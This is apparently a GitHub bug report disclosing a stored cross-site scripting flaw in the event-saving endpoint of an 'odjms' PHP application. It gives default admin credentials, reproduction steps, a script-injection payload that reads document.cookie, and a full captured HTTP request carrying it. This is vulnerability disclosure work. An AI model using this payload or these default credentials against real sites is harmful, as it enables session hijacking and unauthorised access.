 BUG_Author:yohane

Vulnerability url: /odjms/classes/Master.php?f=save_event

POST form-data parameter name="name" exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/odjms/admin/login.php

Default Admin Access: Username: admin / Password: admin123

2.Click on "Event List" and Click on "+ Add New".

3.Put Payload into the name="name" parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /odjms/classes/Master.php?f=save_event HTTP/1.1
Host: localhost
Content-Length: 456
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryP4bIlFlOxTFMP8Qt
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/odjms/admin/?page=events
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=51dsd8ijjls4hhri4d9jare8sk
Connection: close

------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="name"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="description"

b
------WebKitFormBoundaryP4bIlFlOxTFMP8Qt
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryP4bIlFlOxTFMP8Qt--
```

5.Payload will trigger when a user visits on http://localhost/odjms/admin/?page=events

![image](https://github.com/yoyoyoyoyohane/bug_report/blob/main/xss2.png)
